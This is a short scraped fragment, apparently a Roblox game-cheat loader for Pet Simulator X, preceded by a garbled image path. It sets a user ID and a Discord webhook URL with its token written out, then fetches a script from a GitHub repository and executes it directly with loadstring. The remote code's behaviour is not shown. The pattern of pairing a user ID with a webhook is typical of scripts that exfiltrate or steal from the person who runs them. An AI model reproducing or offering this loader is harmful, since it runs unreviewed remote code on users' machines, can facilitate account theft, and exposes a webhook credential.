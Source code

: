 _G.UserID = 1421711429
_G.WebHook = "https://discord.com/api/webhooks/1079060531673043004/Jvi2XUan2j16fDaDUm65-3rqWB7jteiZdqUixzWGig1eBBAjqVqBKj9KAuJaD9WhF0JT"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
